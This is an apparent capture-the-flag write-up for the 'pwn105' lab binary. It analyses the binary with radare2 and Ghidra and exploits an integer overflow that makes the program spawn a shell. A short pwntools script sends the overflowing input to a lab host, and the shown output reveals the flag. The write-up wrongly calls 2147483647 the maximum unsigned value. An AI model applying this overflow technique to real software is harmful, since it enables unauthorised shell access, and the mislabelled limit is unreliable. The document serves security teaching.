

# pwn105

- [Binary Analysis](#binary-analysis)
- [Local Exploitation](#local-exploitation)
- [Remote Exploitation](#remote-exploitation)

```text

The challenge is running on port 9005

```

## Binary Analysis

```bash
$ ls
pwn105

$ file pwn105 
pwn105: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=efe6d094462867e6b08e74de43fb7126e7b14ee4, for GNU/Linux 3.2.0, not stripped

$ checksec --file=pwn105
    Arch:       amd64-64-little
    RELRO:      Partial RELRO
    Stack:      Canary found
    NX:         NX enabled
    PIE:        PIE enabled
    Stripped:   No
```

The *radare2* tool is used to further analyze the track.

```text
[0x000010a0]> afl
0x00001030    1      6 sym.imp.puts
0x00001040    1      6 sym.imp.__stack_chk_fail
0x00001050    1      6 sym.imp.system
0x00001060    1      6 sym.imp.printf
0x00001070    1      6 sym.imp.setvbuf
0x00001080    1      6 sym.imp.__isoc99_scanf
0x00001090    1      6 sym.imp.__cxa_finalize
0x000010a0    1     42 entry0
0x000010d0    4     34 sym.deregister_tm_clones
0x00001100    4     51 sym.register_tm_clones
0x00001140    5     54 entry.fini0
0x00001180    1      9 entry.init0
0x00001000    3     23 sym._init
0x00001420    1      1 sym.__libc_csu_fini
0x00001424    1      9 sym._fini
0x00001211    3     61 sym.banner
0x000013c0    4     93 sym.__libc_csu_init
0x0000124e    9    364 main
0x00001189    3    136 sym.setup

```

Among the symbols, the *main* function is identified. 

We proceed with the inspection of the decompiled code of the *main* function with *ghidra*.

```c

void main(void)

{
  long in_FS_OFFSET;
  uint num1;
  uint num2;
  uint sum;
  long canary;
  
  canary = *(long *)(in_FS_OFFSET + 0x28);
  setup();
  banner();
  puts("-------=[ BAD INTEGERS ]=-------");
  puts("|-< Enter two numbers to add >-|\n");
  printf("]>> ");
  __isoc99_scanf(&DAT_0010216f,&num1);
  printf("]>> ");
  __isoc99_scanf(&DAT_0010216f,&num2);
  sum = num2 + num1;
  if (((int)num1 < 0) || ((int)num2 < 0)) {
    printf("\n[o.O] Hmmm... that was a Good try!\n",(ulong)num1,(ulong)num2,(ulong)sum);
  }
  else if ((int)sum < 0) {
    printf("\n[*] C: %d",(ulong)sum);
    puts("\n[*] Popped Shell\n[*] Switching to interactive mode");
    system("/bin/sh");
  }
  else {
    printf("\n[*] ADDING %d + %d",(ulong)num1,(ulong)num2);
    printf("\n[*] RESULT: %d\n",(ulong)sum);
  }
  if (canary != *(long *)(in_FS_OFFSET + 0x28)) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
  return;
}
```

The program receives two non-negative integer values ​​and returns their sum. If *sum* is a negative value, then the program launches a shell.

This suggests an **Integer Overflow Vulnerability** that we can exploit to bypass checks on the values ​​sent by the user.

To clarify the exploit and the path to follow, below is an interesting portion of the **Control Flow Graph** of the *main* function.



Value to pass:
- **value1** not signed
- **value2** not signed

Results must be:
- **value1+value2** signed, `cmp [var_ch], 0; js 0x134b`

The idea is to add `1` to the` maximum unsigned integer` value that can be represented with a DWORD (4 bytes).

## Local Exploitation

The **maximum unsigned integer value** is `2147483647` (`0x7FFFFFFF`).

```bash
$ ./pwn105 
       ┌┬┐┬─┐┬ ┬┬ ┬┌─┐┌─┐┬┌─┌┬┐┌─┐
        │ ├┬┘└┬┘├─┤├─┤│  ├┴┐│││├┤ 
        ┴ ┴└─ ┴ ┴ ┴┴ ┴└─┘┴ ┴┴ ┴└─┘
                 pwn 105          


-------=[ BAD INTEGERS ]=-------
|-< Enter two numbers to add >-|

]>> 2147483647
]>> 1

[*] C: -2147483648
[*] Popped Shell
[*] Switching to interactive mode
$ whoami
ap
$ 
```

Works!

## Remote Exploitation

Build and run the `exploit` script and use the *pwntools* library.

```python
#!/usr/bin/env python3
from pwn import remote

REMOTE, PORT = '10.10.208.103', 9005

max_signed_int="2147483647"

io=remote(REMOTE, PORT)
io.sendline(max_signed_int.encode())
io.sendline(b'1')
io.interactive()

```

```bash
$ ./exploit 
[+] Opening connection to 10.10.208.103 on port 9005: Done
[*] Switching to interactive mode
       ┌┬┐┬─┐┬ ┬┬ ┬┌─┐┌─┐┬┌─┌┬┐┌─┐
        │ ├┬┘└┬┘├─┤├─┤│  ├┴┐│││├┤ 
        ┴ ┴└─ ┴ ┴ ┴┴ ┴└─┘┴ ┴┴ ┴└─┘
                 pwn 105          


-------=[ BAD INTEGERS ]=-------
|-< Enter two numbers to add >-|

]>> ]>> 
[*] C: -2147483648
[*] Popped Shell
[*] Switching to interactive mode
$ ls
flag.txt
pwn105
pwn105.c
$ cat flag.txt
THM{VerY_b4D_1n73G3rsss}
$  
```

GG :3
